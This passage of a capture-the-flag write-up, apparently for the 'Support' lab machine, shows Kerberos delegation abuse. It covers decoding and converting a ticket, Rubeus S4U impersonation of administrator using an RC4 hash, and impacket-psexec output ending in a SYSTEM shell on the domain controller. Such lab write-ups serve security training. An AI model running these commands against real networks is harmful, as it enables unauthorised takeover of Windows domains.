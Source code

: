 ```powershell
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ cat aux.ticket| tr -d ' '  | tr -d '\n' | base64 -d > admin.ticket
```

```powershell
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ impacket-ticketConverter admin.ticket admin.ccache                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```

Now we should be able to user psexec to obtain a shell.

```powershell
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ KRB5CCNAME=admin.ccache impacket-psexec support.htb/Administrator@DC -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

The reason why this has failed is because we didn’t specify the correct name when requesting the ticket.

- Bad → cifs/dc.support.htb

```powershell
.\rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb
```

- Correct → cifs/DC

```powershell
.\rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/DC
```

Now we have the shell.

```powershell
┌──(kali㉿kali)-[~/machines/windows/support]
└─$ KRB5CCNAME=admin.ccache impacket-psexec support.htb/Administrator@DC -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on DC.....
[*] Found writable share ADMIN$
[*] Uploading file SUcDRXed.exe
[*] Opening SVCManager on DC.....
[*] Creating service lBKn on DC.....
[*] Starting service lBKn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```